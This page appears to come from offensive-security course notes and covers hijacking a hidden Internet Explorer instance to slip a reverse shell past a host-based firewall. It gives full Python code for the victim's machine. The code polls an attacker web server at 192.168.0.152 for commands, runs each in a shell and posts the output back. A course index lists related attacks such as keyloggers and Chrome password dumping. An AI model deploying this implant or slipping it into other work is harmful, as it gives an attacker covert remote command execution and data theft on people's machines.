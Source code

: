 ```yaml
---
title: Hickjack the Internet Explorer process to bypass an host-based firewall
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - bypassing techniques
  - host based firewall
---
```


# Hickjack the Internet Explorer process to bypass an host-based firewall

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


For our script to bypass a host-based firewall (based on an ACL), we will hickjack the Internet Explorer process to conceal our traffick and bypass it.

## Client side

Make sure that the victim machine (a windows 10) has installed these two python libraries: pypiwin32 and pywin32.

To be run on our victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course  - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

from win32com.client import Dispatch
from time import sleep
import subprocess

ie = Dispatch("InternetExplorer.Application") # Create browser instance.
ie.Visible = 0 # Make it invisible [ run in background ] (1= visible)

# Paramaeters for POST
dURL = "http://192.168.0.152"  
Flags = 0
TargetFrame = 0


while True:
    ie.Navigate("http://192.168.0.152") # Navigate to our kali web server (the attacker machine) to grab the hacker commands
    while ie.ReadyState != 4: # Wait for browser to finish loading.
        sleep(1)

    command = ie.Document.body.innerHTML 
    command = command.encode() # encode the command
    if 'terminate' in command.decode():
        ie.Quit() # quit the IE and end up the process
        break
    else:
        CMD = subprocess.Popen(command.decode(), shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
        Data = CMD.stdout.read()
        PostData = memoryview( Data ) # in order to submit or post data using COM technique , it requires to  buffer the data first using memoryview
        ie.Navigate(dURL, Flags, TargetFrame, PostData) # we post the comamnd execution result along with the post parameters which we defined eariler..

    sleep(3)

```